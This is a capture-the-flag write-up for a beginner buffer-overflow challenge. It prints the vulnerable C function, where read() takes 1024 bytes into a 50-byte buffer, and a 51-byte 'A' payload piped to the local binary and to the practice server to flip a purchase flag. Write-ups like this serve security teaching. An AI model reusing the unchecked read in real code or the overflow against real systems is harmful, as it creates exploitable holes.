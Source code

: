 # stack0 pt1
**Category:** Pwn

**Points:** 5

**Description:**

Author: C0deH4cker

Read the contents of flag1.txt.

nc ctf.hackucf.org 32101

> **Files:** stack0, stack0.c, libpwnableharness32.so

## Write-up
This is a buffer overflow challenge, and the code file was provided.

First I tried just running the program:
```bash
> ./stack0
Debug info: Address of input buffer = 0xff862aed
Enter the name you used to purchase this program: fred
This program has not been purchased.
```

The buffer overflow is likely to be in the place the name is entered.

Looking at the code the important function seemed to be `handle_connection()` as it contains a `read()` call into a buffer of 50 chars:
```c
static void handle_connection(int sock) {
	bool didPurchase = false;
	char input[50];
	
	printf("Debug info: Address of input buffer = %p\n", input);
	
	printf("Enter the name you used to purchase this program: ");
	read(STDIN_FILENO, input, 1024);
	
	if(didPurchase) {
		printf("Thank you for purchasing Hackersoft Powersploit!\n");
		giveFlag();
	}
	else {
		printf("This program has not been purchased.\n");
	}
}
```

When the program runs it waits for input at this point, and overflowing the buffer may give a result. At first I tried overrunning by a single byte.
```bash
> python -c "print ('A' * 51)" | ./stack0
Debug info: Address of input buffer = 0xffa3892d
Enter the name you used to purchase this program: Thank you for purchasing Hackersoft Powersploit!
flag1.txt: No such file or directory
```

This shows the program is attempting to load the flag, so I ran it against the server:
```bash
> python -c "print('A' * 51)" | nc ctf.hackucf.org 32101
```

This worked, and gave me the flag.
